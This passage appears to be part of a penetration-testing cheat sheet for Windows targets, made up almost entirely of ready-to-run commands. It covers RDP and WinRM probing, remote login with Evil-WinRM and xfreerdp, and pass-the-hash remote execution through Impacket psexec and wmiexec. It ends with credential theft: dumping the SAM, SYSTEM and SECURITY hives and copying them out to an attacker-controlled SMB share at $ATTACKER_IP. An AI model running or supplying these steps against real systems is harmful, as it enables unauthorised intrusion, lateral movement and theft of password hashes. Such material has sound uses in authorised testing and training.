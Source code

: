5) RDP and WinRM probes
```bash
# RDP info and encryption
sudo nmap -p3389 --script rdp-enum-encryption,rdp-ntlm-info $TARGET

# WinRM detect
sudo nmap -p5985,5986 -sV $TARGET
```

6) Remote access with credentials
```bash
# RDP
xfreerdp /v:$TARGET /u:$USER /p:$PASS /dynamic-resolution /cert:ignore

# WinRM (PowerShell)
evil-winrm -i $TARGET -u $USER -p $PASS
# Or with NTLM hash (if supported by your Evil-WinRM build)
# evil-winrm -i $TARGET -u $USER -H NTHASH
```

7) Remote exec over SMB (Impacket)
```bash
# PSExec-like (creates a service; often needs Admin rights)
python3 /usr/share/doc/python3-impacket/examples/psexec.py $USER:$PASS@$TARGET
# Pass-the-hash
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes :NTHASH $USER@$TARGET

# WMI exec (quieter service artifacts than PSExec)
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py $USER:$PASS@$TARGET
```

8) Post-exploitation: dump creds/hashes
```bash
# Remote dump (requires Admin; uses RemoteRegistry/registry hives)
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py $USER:$PASS@$TARGET

# If you have a shell on the host, save hives for offline dump
reg.exe save hklm\sam C:\Windows\Temp\sam.save
reg.exe save hklm\system C:\Windows\Temp\system.save
reg.exe save hklm\security C:\Windows\Temp\security.save

# Copy hives back to your box (e.g., with SMB or certutil/http)
# Serve an SMB share from your attack box
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share $(pwd)
# From victim, copy files to your share (adjust path):
copy C:\Windows\Temp\sam.save \\$ATTACKER_IP\share\
copy C:\Windows\Temp\system.save \\$ATTACKER_IP\share\
copy C:\Windows\Temp\security.save \\$ATTACKER_IP\share\

# Offline dump
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

